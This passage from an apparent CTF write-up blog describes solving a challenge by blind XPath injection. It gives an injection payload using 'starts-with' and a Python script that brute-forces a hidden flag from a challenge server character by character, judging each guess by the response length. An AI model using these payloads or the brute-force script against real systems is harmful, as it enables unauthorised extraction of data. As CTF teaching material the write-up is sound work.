 
Further googling told me that I need to perform an X path injection. This is basically like sql injection and has "or 1=1" , "and" we can use. I googled even more to find two function of my use: "contains" and "starts-with". As the name suggests we can use these filters to find the flag.

[Here is where I read them from](https://docs.microsoft.com/en-us/previous-versions/troubleshoot/msxml/use-starts-with-xpath-function).

After some more testing I found that the server gives me answer as a yes/no. So I needed a script again. I just used the above script with some improvements and modifications. And here is the payload I created to find the flag.

`'] or /military/district/staff/selfDestructCode[starts-with(.,'CHTB{"+x+"')] or /military/district/staff[name='Baic`

"x" is the chars I will replace it with. The flag was divided in two places in the xml file SO I had to make some modifications after getting the first half of the flag. I know I should automate stuff more but I was on the clock and needed a quick and dirty flag.

{%highlight python%}
import requests
import string

flag='CHTB{'
secflag='4'
length="72"
while("}"!=flag[-1]):
	for x in string.ascii_letters + string.digits + "!@#$%^()@_{}":
		data={"search":"'] or /military/district/staff/selfDestructCode[starts-with(.,'"+secflag+x+"')] or /military/district/staff[name='Baic"}
		#if x == 'C':
		#	continue
		#data={"search":"'] or /military/district/staff/selfDestructCode[starts-with(.,'"+secflag+x+"')] and /military/district/staff/selfDestructCode[contains(.,'}')] or /military/district/staff[name='Baic"}
		r=requests.post("http://138.68.177.159:32689/api/search",json=data)
		#print(x,r.headers.get('Content-Length'))
		if (r.headers.get('Content-Length')==length):
			secflag+=x
			print(secflag)
print(secflag)

{%endhighlight%}


This was all I can jam into one blog. Will write more as I encounter more interesting challenges.